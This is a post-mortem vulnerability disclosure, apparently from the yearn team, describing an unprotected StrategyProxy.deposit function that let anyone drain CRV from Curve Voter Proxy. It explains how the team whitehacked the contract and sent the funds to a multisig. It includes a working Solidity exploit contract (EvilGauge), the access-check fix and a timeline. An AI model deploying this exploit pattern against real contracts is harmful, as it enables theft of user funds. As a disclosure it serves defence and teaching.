 # Vulnerability disclosure 2020-10-10

## Summary

- A vulnerability that puts token balance of Curve Voter Proxy at risk was discovered.
- The only token in its balance was $20k worth of CRV.
- The vulnerability was exploited by the team, all funds are rescued.

## Background

At 07:00 (UTC) Emiliano Bonassi shares a concern that `StrategyProxy.deposit(address gauge, address token)` can be executed by anyone. He explains that by constructing a fake gauge contract, it's possible to force `CurveYCRVVoter` to call `deposit(uint amount)` on it with a token allowance.

The concern is initially dismissed as funds should never end up in the proxy. Emiliano follows up with the info that there is in fact 34,352 CRV sitting in the Voter Proxy.

A few moments later Artem writes a proof of concept exploit contract, and confirms the vulnerability in forked mainnet.

The team decides to whitehack the contract to not put funds at risk. Artem exploits the contract and sends the recovered funds to multisig.

## Details of vulnerability

An `EvilGauge` contract which mimics Curve Gauge can be constructed. An attacker calls `StrategyProxy.deposit(EvilGauge, Token)`, which calls and then calls `CurveYCRVVoter.execute` with the following actions:
- `Token.approve(EvilGauge, Token.balanceOf(CurveYCRVVoter))` 
- `EvilGauge.deposit(Token.balanceOf(CurveYCRVVoter))`

Since `EvilGauge` has allowance from `CurveYCRVVoter`, it can `Token.transferFrom` that amount of funds for its benefit.

## Exploit contract

```
pragma solidity =0.5.17;

import "@openzeppelinV2/contracts/token/ERC20/IERC20.sol";

contract EvilGauge {

    IERC20 token;
    address owner;

    constructor(address _token) public {
        owner = msg.sender;
        token = IERC20(_token);
    }

    function deposit(uint amount) public {
        token.transferFrom(msg.sender, owner, amount);
    }
}
```

## Details of fix

`StrategyProxy.deposit(address,address)` must only be callable by approved Strategies:
```
require(strategies[msg.sender], "!strategy");
```

Each proxy strategy should call `StrategyProxy.lock()` on `harvest()` to avoid leaving residue CRV in Voter Proxy contract.

## Timeline of events

- **Oct 10, 2020, 11:00 UTC** Emiliano raises the concern in YFI Secret Admirers chat.
- **12:53** Emiliano reaches out to Artem with more details, Artem writes the exploit.
- **13:09** Exploit is confirmed to steal funds in forked mainnet.
- **13:15** Exploit deployed on mainnet and the contract is whitehacked. The funds are sent to yearn multisig.

## Links

- Whitehack [transaction](https://ethtx.info/mainnet/0x8302d3481d2b4eb6b5ba7d6b467e3ce8cd3450dac3c8857aac7964bd54ed507a)
